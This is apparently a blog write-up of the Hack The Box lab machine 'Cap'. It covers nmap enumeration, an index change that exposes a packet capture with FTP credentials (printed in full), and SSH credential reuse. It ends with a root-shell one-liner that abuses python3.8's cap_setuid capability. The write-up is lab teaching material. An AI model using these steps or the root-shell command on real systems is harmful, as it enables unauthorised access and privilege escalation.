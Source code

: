 ```yaml
---
title: "HTB: Cap Writeup"
date: 2021-06-07T15:42:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb easy
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration

I began searching this box with a standard `nmap` scan:

```
$ sudo nmap -sC -sV -oA nmap/cap 10.129.121.64
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 21:26 EDT
Nmap scan report for 10.129.121.64
Host is up (0.091s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.21 seconds
```

# Foothold

From the above scan, there are ports `21`, `22`, and `80` open, with port `80` hosting an HTTP server. Visiting port 80 in a web browser has a web UI which shows various statistics about the web server, including allowing you to download the last 5 minutes of network traffic.

Looking at the download from this, it can be seen that the download starts at index 1, simply adjusting the download back by an index will give you a PCAP dump at index 0. When viewing this PCAP dump, it may be seen that it's a recording of an FTP connection with the credentials `nathan:Buck3tH4TF0RM3!`.

Those credentials work to log into the FTP server on the machine, which starts in the nome directory for `nathan`. If you attempt the same FTP credentials via SSH, you'll see that the `nathan` user has the exact same username/password.

# Privesc

Once logged into SSH, the privesc portion took me a bit, but you can eventually find that the executable `/usr/bin/python3.8` has the `cap_setuid` capabilities!

```bash
$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

What this means is that the `python3.8` executable has the ability to set the UID of the process, allowing it to run as a different user. You may read more about [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).

Using the command `/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'` will instantly spawn a root shell.
